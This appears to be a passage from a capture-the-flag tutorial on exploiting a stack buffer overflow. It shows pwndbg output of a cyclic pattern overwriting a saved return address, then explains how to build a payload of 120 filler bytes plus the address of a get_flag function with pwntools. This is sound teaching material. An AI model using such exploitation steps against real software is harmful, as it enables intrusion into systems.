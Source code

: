 ```
pwndbg> n
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
pwndbg> stack 16
00:0000│ rax r8 rsp  0x7fffffffdd50 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
01:0008│             0x7fffffffdd58 ◂— 'caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
02:0010│             0x7fffffffdd60 ◂— 'eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
03:0018│             0x7fffffffdd68 ◂— 'gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
04:0020│             0x7fffffffdd70 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
05:0028│             0x7fffffffdd78 ◂— 'kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
06:0030│             0x7fffffffdd80 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
07:0038│             0x7fffffffdd88 ◂— 'oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
08:0040│             0x7fffffffdd90 ◂— 'qaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
09:0048│             0x7fffffffdd98 ◂— 'saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
0a:0050│             0x7fffffffdda0 ◂— 'uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
0b:0058│             0x7fffffffdda8 ◂— 'waaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
0c:0060│             0x7fffffffddb0 ◂— 'yaaazaabbaabcaabdaabeaabfaabgaab'
0d:0068│             0x7fffffffddb8 ◂— 'baabcaabdaabeaabfaabgaab'
0e:0070│ rbp         0x7fffffffddc0 ◂— 'daabeaabfaabgaab'
0f:0078│             0x7fffffffddc8 ◂— 'faabgaab'
```

We can see that the saved return address has been overwritten with 'faabgaab'.
Now, if we continue, the program will jump to this address

```
pwndbg> c
 ► 0x4011a1 <vuln+43>    ret    <0x6261616762616166>
```

The program sigsevs on this instruction because it is trying to return to
0x6261616762616166 (which is just "faabgaab" treated as a number instead of a
string), but it knows that this is not a valid memory address. Therefore, it
errors out. However, what if we carefully designed our payload to make sure that
we overwrite it with a valid memory address?  Since making this payload by hand
would be difficult, we use a python library called pwntools to do it for us.
pwntools is incredibly useful and will be used in almost all pwn problems from
now on.

We know that faabgaab are the last 8 bytes of the 128 byte long sequence we
used. These 8 bytes should be replaced by the address of the place we want to
jump to. From reading the dissasembly we can see that `get_flag`, the function
we want to jump to, is located at `0x4011c7`. Therefore, we know that we want
120 bytes of filler, and then our memory address as the last 8 bytes. We will
use pwntools to create this payload. pwntools includes a function called `p64`
that formats a number as a 64 bit (8 byte) integer. We will use this on our
memory address to properly format it as 8 bytes.
